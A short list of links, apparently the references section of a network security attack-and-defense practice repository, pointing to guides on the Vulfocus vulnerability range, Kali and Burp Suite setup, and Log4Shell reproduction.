[Network-security-attack-and-defense-practice](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)

[vulfocus搭建和场景编排](http://www.cbww.cn/news/57034.shtml)

[Vulfocus 漏洞靶场 v0.3.2.9 场景商店上线](https://nosec.org/home/detail/4875.html)

[Vulfocus官网](https://vulfocus.cn/#/scene/list)

[Burpsuite下载安装教程](https://blog.csdn.net/weixin_51641247/article/details/129796879)

[使用 docker-compose一键搭建「漏洞练习环境」](https://github.com/c4pr1c3/ctf-games)

[纯净版 Kali 初始化基础环境](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

[理解 Log4Shell 漏洞](https://sspai.com/post/70394)

[给Kali Linux扩容磁盘](https://cloud.tencent.com/developer/article/1936205?from=15425)

[DNSLOG](http://www.dnslog.cn/)

[Log4j2远程代码执行漏洞复现](https://blog.csdn.net/weixin_47179815/article/details/125654828)

[vulfocus靶场搭建（docker环境)](https://blog.csdn.net/cute_phoebe/article/details/125397586)

